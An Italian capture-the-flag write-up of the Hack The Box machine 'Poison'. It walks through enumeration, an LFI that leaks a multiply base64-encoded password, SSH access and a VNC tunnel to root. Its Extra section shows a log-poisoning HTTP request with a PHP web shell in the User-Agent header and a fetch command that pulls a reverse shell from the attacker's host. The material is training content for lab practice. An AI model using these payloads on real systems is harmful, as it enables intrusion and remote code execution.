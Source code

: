 #+TITLE: HTB - Poison
#+AUTHOR: Leonardo Tamiano
#+HTML_HEAD_EXTRA: <style>pre { background-color: #000; color: #bbb; } </style>

* Basic Info
  :PROPERTIES:
  :UNNUMBERED: t
  :END:  
  - *Default IP*: 10.10.10.84
  - *Video*: [[https://www.youtube.com/watch?v=NyHuWFaK-y4&t=2136s][HTB - Poison]]
  - *Table of contents*:
    #+TOC: headlines 2

  ------------------------
  
  A seguire è riportato un breve walkthrough della macchina *Poison*
  offerta dalla piattaforma Hack the Box.

* Enumeration
** nmap
*** nmap -sC -sV poison
    #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-19 00:32 CET
Nmap scan report for poison (10.129.69.246)
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds     
    #+end_example
    
*** nmap -p- poison
   #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-19 00:32 CET                                          
Stats: 0:03:53 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan                              
Connect Scan Timing: About 68.83% done; ETC: 00:38 (0:01:46 remaining)                                   
Stats: 0:03:55 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan                              
Connect Scan Timing: About 69.27% done; ETC: 00:38 (0:01:44 remaining)                                   
Nmap scan report for poison (10.129.69.246)         
Host is up (0.055s latency).                        
Not shown: 65533 closed ports                       
PORT   STATE SERVICE                                
22/tcp open  ssh                                    
80/tcp open  http                                   

Nmap done: 1 IP address (1 host up) scanned in 336.94 seconds     
   #+end_example

** dirb
*** dirb http://10.10.10.84 -r -o tempo.dirb
    #+begin_example
-----------------
DIRB v2.22
By The Dark Raver
-----------------

OUTPUT_FILE: tempo.dirb
START_TIME: Sat May  5 10:06:22 2018
URL_BASE: http://10.10.10.84/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                   
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612                                                                                  

---- Scanning URL: http://10.10.10.84/ ----
+ http://10.10.10.84/index.php (CODE:200|SIZE:289)                                                     
+ http://10.10.10.84/info.php (CODE:200|SIZE:157)                                                      
+ http://10.10.10.84/phpinfo.php (CODE:200|SIZE:68229)                                                 

-----------------
END_TIME: Sat May  5 10:09:13 2018
DOWNLOADED: 4612 - FOUND: 3
    #+end_example

** web server (port 80)
*** ./browse.php?file=listfiles.php
   #+begin_example
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
      
   #+end_example

*** ./browse.php?file=pwdbackup.txt
   #+begin_example
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=

   #+end_example

*** pwdbackup.txt
    #+begin_example
This password is secure, it's encoded atleast 13 times.. what
could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
    #+end_example

*** Decoded password (after 13 passes)
    Using the following script 

    #+begin_src sh
#!/usr/bin/sh

END=13
FILE="pwdbackup.txt."

for i in $(seq 0 $END); do
    (cat $FILE$i | base64 -d) > $FILE$((i+1))
done         
    #+end_src

    on the previous file we get the following password
    
    #+begin_example
Charix!2#4%6&8(0    
    #+end_example
   
** priv esc
*** charix
**** ssh
     Using password ~Charix!2#4%6&8(0~
     #+begin_src sh
ssh charix@poison
     #+end_src

**** secret.zip
     The password was actually Charix!2#4%6&8(0 and the was the following

     #+begin_example
[leo@kali poison]$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
[leo@kali poison]$ cat secret
[|Ֆz![leo@kali poison]$ hexdump -C secret
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
     #+end_example

**** ps aux
     Some process (not all)
     #+begin_example
root   319   0.0  0.5   9560  5052  -  Ss   20:20   0:00.05 /sbin/devd                                                                                                                                             
root   390   0.0  0.2  10500  2396  -  Ss   20:20   0:00.03 /usr/sbin/syslogd -s                                                                                                                                   
root   543   0.0  0.5  56320  5392  -  S    20:21   0:00.42 /usr/local/bin/vmtoolsd -c /usr/local/share/vmware-tools/tools.conf -p /usr/local/lib/open-vm-tools/plugins/vmsvc                                      
root   620   0.0  0.7  57812  7052  -  Is   20:21   0:00.03 /usr/sbin/sshd                                                                                                                                         
root   634   0.0  1.1  99172 11516  -  Ss   20:22   0:00.04 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
www    646   0.0  1.2 101220 12356  -  S    20:22   0:00.49 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
www    647   0.0  1.2 101220 12220  -  S    20:22   0:00.46 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
www    648   0.0  1.2 101220 12244  -  S    20:22   0:00.47 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
www    650   0.0  1.2 101220 12184  -  S    20:22   0:00.47 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
www    651   0.0  1.2 101220 12212  -  S    20:22   0:00.50 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
www    652   0.0  1.2 101220 12212  -  S    20:22   0:00.53 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
root   654   0.0  0.6  20636  6204  -  Ss   20:23   0:00.01 sendmail: accepting connections (sendmail)                                                                                                             
smmsp  657   0.0  0.6  20636  5872  -  Is   20:23   0:00.00 sendmail: Queue runner@00:30:00 for /var/spool/clientmqueue (sendmail)                                                                                 
root   661   0.0  0.2  12592  2436  -  Is   20:23   0:00.00 /usr/sbin/cron -s                                                                                                                                      
root   718   0.0  0.8  85228  7836  -  Is   20:23   0:00.02 sshd: charix [priv] (sshd)                                                                                                                             
www    720   0.0  1.2 101220 12216  -  S    20:23   0:00.43 /usr/local/sbin/httpd -DNOHTTPACCEPT                                                                                                                   
charix 749   0.0  0.8  85228  7908  -  S    20:24   0:00.07 sshd: charix@pts/2 (sshd)                                                                                                                              
root   754   0.0  0.8  85228  7836  -  Is   20:24   0:00.02 sshd: charix [priv] (sshd)                                                                                                                             
charix 762   0.0  0.8  85228  7888  -  I    20:25   0:00.04 sshd: charix@pts/3 (sshd)                                                                                                                              
www    798   0.0  1.2 101220 12216  -  S    20:26   0:00.34 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    839   0.0  1.2 101220 12220  -  S    20:27   0:00.27 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    843   0.0  1.2 101220 12196  -  S    20:27   0:00.26 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    846   0.0  1.2 101220 12192  -  S    20:27   0:00.29 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    847   0.0  1.2 101220 12216  -  S    20:27   0:00.24 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   529   0.0  0.9  23620  8868 v0- I    20:21   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/p
root   540   0.0  0.7  67220  7064 v0- I    20:21   0:00.04 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541   0.0  0.5  37620  5312 v0- I    20:21   0:00.02 twm
root   708   0.0  0.2  10484  2076 v0  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv0
root   709   0.0  0.2  10484  2076 v1  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv1
root   710   0.0  0.2  10484  2076 v2  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv2
root   711   0.0  0.2  10484  2076 v3  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv3
root   712   0.0  0.2  10484  2076 v4  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv4
root   713   0.0  0.2  10484  2076 v5  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv5
root   714   0.0  0.2  10484  2076 v6  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv6
root   715   0.0  0.2  10484  2076 v7  Is+  20:23   0:00.00 /usr/libexec/getty Pc ttyv7
root   566   0.0  0.4  19660  3616  0  Is+  20:21   0:00.02 -csh (csh)
     #+end_example
    
**** sockstat
     #+begin_example
root     sshd       620   4  tcp4   *:22                  *:*
root     twm        541   3  stream -> /tmp/.X11-unix/X1
root     xterm      540   3  stream -> /tmp/.X11-unix/X1
root     Xvnc       529   0  stream /tmp/.X11-unix/X1
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
root     Xvnc       529   4  stream /tmp/.X11-unix/X1
root     Xvnc       529   5  stream /tmp/.X11-unix/X1   
     #+end_example

     @@html: <hr style="border: 1px solid #A1283B;" />@@

* Walkthrough
** nmap scans
   I soliti scan con namp ci revelano la seguente situazione

   *nmap -sC -sV poison*
   
   #+begin_example
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-19 00:32 CET
Nmap scan report for poison (10.129.69.246)
Host is up (0.055s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.21 seconds     
   #+end_example

   Come possiamo vedere, abbiamo un server nella porta 80 e un server
   ssh nella porta 22.

** enumerazione web server
   La prima cosa che notiamo andando nel sito web è che tramite lo
   script ~browser.php~ abbiamo una *LFI* tramite il parametro ~file~.

   Inoltre, chiamando lo script ~listfiles.php~ andando nel seguente URL

   #+begin_example
http://poison/browse.php?file=listfiles.php
   #+end_example

   otteniamo una una lista di file, che probabilmente è la lista dei
   file presenti in una cartella del web server.

   #+begin_example
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
      
   #+end_example

   tra questi notiamo in particolare il file ~pwdbackup.txt~. Andandolo
   a leggere tramite la solita LFI otteniamo 
      
   #+begin_example
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=

   #+end_example

** decodifica di pwdbackup.txt
   Notiamo che il contenuto del file ~pwdbacup.txt~ è molto
   probabilmente codificato in ~base64~. Per essere sicuri di questo
   possiamo fare le seguenti considerazioni ([[https://stackoverflow.com/questions/8571501/how-to-check-whether-a-string-is-base64-encoded-or-not][link utile]]):

   - La lunghezza della codifica è un multiplo di 4.
       
     #+begin_src sh
# counts number of characters that are not newlines in a file
expr $(cat test.txt | tr -d '\n' | wc -c) / 4  # --> 1164
perl -e 'print 1164 / 4' # --> 291
     #+end_src

   - Ogni carattere della codifica appartiene all'insieme di caratteri
     ~A-Z~, ~a-z~, ~0-9~, ~+~, ~/~, tranne che per il padding alla fine, che può
     essere composto dai caratteri ~0~, ~1~ o ~=~.

   Per decodificare il file iniziamo notando che possiamo
   codificare/decodificare una data stringa in base64 utilizzando il
   comando ononimo ~base64~.
     
   #+begin_src sh
# encoding
echo "hello world" | base64
# -- aGVsbG8gd29ybGQK

# decoding
echo "aGVsbG8gd29ybGQK" | base64 -d
# -- hello world
   #+end_src

   Per decodificare il contenuto del file 13 volte di fila possiamo
   quindi utilizzare il seguente script bash. Per far funzionare
   corretamente lo script dobbiamo prima salvare la codifica originale
   in un file chiamato ~pwdbackup.txt.0~
     
   #+begin_src sh
#!/usr/bin/sh

END=13
FILE="pwdbackup.txt."

for i in $(seq 0 $END); do
    (cat $FILE$i | base64 -d) > $FILE$((i+1))
done         
   #+end_src

   Eseguendo lo script otteniamo quindi 14 file diversi

   #+begin_example
[leo@kali poison]$ ls
decode.sh  pwdbackup.txt  pwdbackup.txt.0
[leo@kali poison]$ ./decode.sh 
[leo@kali poison]$ ls -lha
totale 72K
drwxr-xr-x 2 leo leo 4,0K 19 dic 01.10 .
drwxr-xr-x 3 leo leo 4,0K 19 dic 00.32 ..
-rwxr-xr-x 1 leo leo  127 19 dic 01.10 decode.sh
-rw-r--r-- 1 leo leo 1,2K 19 dic 01.06 pwdbackup.txt
-rw-r--r-- 1 leo leo 1,2K 19 dic 01.10 pwdbackup.txt.0
-rw-r--r-- 1 leo leo  872 19 dic 01.10 pwdbackup.txt.1
-rw-r--r-- 1 leo leo   53 19 dic 01.10 pwdbackup.txt.10
-rw-r--r-- 1 leo leo   37 19 dic 01.10 pwdbackup.txt.11
-rw-r--r-- 1 leo leo   25 19 dic 01.10 pwdbackup.txt.12
-rw-r--r-- 1 leo leo   16 19 dic 01.10 pwdbackup.txt.13
-rw-r--r-- 1 leo leo  645 19 dic 01.10 pwdbackup.txt.2
-rw-r--r-- 1 leo leo  475 19 dic 01.10 pwdbackup.txt.3
-rw-r--r-- 1 leo leo  349 19 dic 01.10 pwdbackup.txt.4
-rw-r--r-- 1 leo leo  256 19 dic 01.10 pwdbackup.txt.5
-rw-r--r-- 1 leo leo  187 19 dic 01.10 pwdbackup.txt.6
-rw-r--r-- 1 leo leo  138 19 dic 01.10 pwdbackup.txt.7
-rw-r--r-- 1 leo leo  102 19 dic 01.10 pwdbackup.txt.8
-rw-r--r-- 1 leo leo   73 19 dic 01.10 pwdbackup.txt.9
   #+end_example

   Il file di nostro interesse in particolare è il file chiamato
   ~pwdbackup.txt.13~, in quanto contiene il valore ottenuto iterando 13
   volte di fila la decodifica base64.
     
   #+begin_src sh
[leo@kali poison]$ cat pwdbackup.txt.13
Charix!2#4%6&8(0
   #+end_src

** user flag
   Per entrare effettivamente nel server inizialmente possiamo
   utilizzare ssh e la password appena trovata. Notiamo infatti che le
   credenziali di accesso sono le seguenti

   #+begin_example
charix:Charix!2#4%6&8(0     
   #+end_example

   Mentre la password è stata ottenuta nello step precedente,
   l'username lo si è dovuto indovinare dalla password.

   -------------------

   Una volta entrati possiamo subito leggere la flag ~user.txt~ nella
   home directory dell'utente ~charix~
     
   #+begin_example
charix@Poison:~ % ls
secret.zip      user.txt
   #+end_example

** unzippare secret.zip
   Dopo aver preso la user flag notiamo che nella home directory
   dell'utente ~charix~ c'è un file particolare, chiamato ~secret.zip~

   #+begin_example
-rw-r-----  1 root    charix   166B Mar 19  2018 secret.zip
   #+end_example

   Per unzipparlo ci viene richiesta una password. La password
   scoperta prima (quella dell'utente charix che ci ha permesso di
   entrare nella macchina) sembra funzionare.

   #+begin_example
[leo@kali poison]$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret     
   #+end_example

   Una volta unzippato otteniamo un file chiamato ~secret~, che a quanto
   pare contiene del contenuto in binario.
   
   #+begin_example
[leo@kali poison]$ file secret
secret: Non-ISO extended-ASCII text, with no line terminators
[leo@kali poison]$ cat secret
[|Ֆz![leo@kali poison]$ hexdump -C secret
00000000  bd a8 5b 7c d5 96 7a 21                           |..[|..z!|
   #+end_example
   
** ssh tunneling
   Continuando, possiamo eseguire il comando ~ps aux~ per notare, tra i
   vari processi, anche il seguente, che ci permette di capire che il
   programma ~Xvnc~ sta girando come l'utente ~root~.

   #+begin_example
root    614   0.0  0.9  23620  8868 v0- I    00:33    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc
   #+end_example

   Utilizzando poi il programma ~sockstat~ vediamo che il programma ~Xvnc~
   sta ascoltando nelle seguenti porte
     
   #+begin_example
charix@Poison:~ % sockstat
// ----
root     Xvnc       614   0  stream /tmp/.X11-unix/X1
root     Xvnc       614   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       614   3  tcp4   127.0.0.1:5801        *:*
root     Xvnc       614   4  stream /tmp/.X11-unix/X1
root     Xvnc       614   5  stream /tmp/.X11-unix/X1     
// ----
   #+end_example

   Dato che ~Xvnc~ sta ascoltando in una porta locale, per connetterci a
   tale programma dobbiamo utilizzare l'abilità di ssh di creare dei
   tunnel. Possiamo creare un tunnel che connette la porta locale
   $1337$ della nostra macchina con la porta locale $5801$ della
   macchina remota nel seguente modo
   
   #+begin_example
[leo@kali poison]$ ssh charix@poison -L 1337:localhost:5801     
   #+end_example

   Una volta che abbiamo creato il tunnel possiamo utilizzare il
   programma ~vncviewer~ nella nostra macchina per connetterci
   all'istanza remota di ~Xvnc~
   
   #+begin_example
[leo@kali poison]$ vncviewer -passwd secret localhost:5902   
   #+end_example

   Dove notiamo che il file ~secret~ è il file ottenuto precedentemente
   unzippando l'archivio ~secret.zip~ trovato nella macchina remota.

** root flag
   Dopo aver lanciato il comando ~vncivewer~ abbiamo ottenuto una shell
   grafica da root nella macchina remota. A questo punto possiamo
   tranquillamente leggere la root flag nella path

   #+begin_example
/root/root.txt
   #+end_example
   
* Extra
  Andiamo adesso a vedere due metodi alternativi per entrare nella
  macchina.
  
** phpinfo() + LFI = RCE
   # No longer works
   # https://github.com/M4LV0/LFI-phpinfo-RCE/blob/master/exploit.py

   Il primo metodo è un metodo abbastanza generale per attaccare le
   applicazioni scritte in php che funziona quando le seguenti ipotesi
   sono soddisfatte:

   - abbiamo una scoperto una LFI.

   - siamo in grado di leggere la pagina ~phpinfo()~
   
   L'idea è quella di exploitare una race condition che ci permette di
   eseguire del codice arbitrario php nel seguente modo:

   1. Inviamo una richiesta con un payload scritto in php nella pagina
      ~phpinfo()~.

   2. Dalla pgina ~phpinfo()~ leggiamo il nome del file in cui l'engine
      php ha salvato il payload inviato precedentemente.
      
   3. Utilizzando la LFI andiamo ad accedere alla path letta nel passo
      precedente.

   Dato però che l'engine php rimuove tutti i file temporanei una
   volta che ha finito di processare la richiesta, per cercare di
   leggere il codice php prima che questo venga eliminato possiamo
   aggiungere del padding in vari campi dell'header.

   Per maggiori informazioni rimando al seguente link: [[https://dl.packetstormsecurity.net/papers/general/LFI_With_PHPInfo_Assitance.pdf][LFI with phpinfo() assistance]].
   
** Log Poisoning
   Un altro modo per entrare nella macchina consiste nel fare *log
   poisoning* nei log situati nel file

   #+begin_example
/var/log/httpd-access.log
   #+end_example

   Per fare questo possiamo inviare la seguente richiesta HTTP

   #+begin_example
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: poison
Upgrade-Insecure-Requests: 1
User-Agent: <?php system($_REQUEST['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close     
   #+end_example

   Andando ad accedere al log utilizzando la LFI possiamo quindi
   eseguire i nostri comando
     
   #+begin_example
http://poison/browse.php?file=/var/log/httpd-access.log&cmd=whoami
   #+end_example

   Infine, per ottenere la shell possiamo utilizzare il comando ~fetch~
   nella macchina remota per trasportare nella vittima una revshell
   scritta in php.
     
   #+begin_example
# command
fetch -o /tmp/shell.php http://<our_ip>:<our_port>/revshell.php
# url encoded
fetch%20-o%20%2Ftmp%2Fshell.php%20http%3A%2F%2F10.10.14.54%3A8000%2Frevshell.php%20     
   #+end_example

   Una volta fatto questo possiamo semplicemente utilizzare la LFI per
   spawnare la nostra rev shell.
     
   #+begin_example
http://poison/browse.php?file=/tmp/shell.php     
   #+end_example

* Legacy Walkthrough                                               :noexport:
** nmap scans
   
   ~nmap -sV -sC -oA nmap 10.10.10.84~
    #+begin_example
Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-05 19:02 CEST
Nmap scan report for 10.10.10.84
Host is up (0.034s latency).
Not shown: 993 closed ports
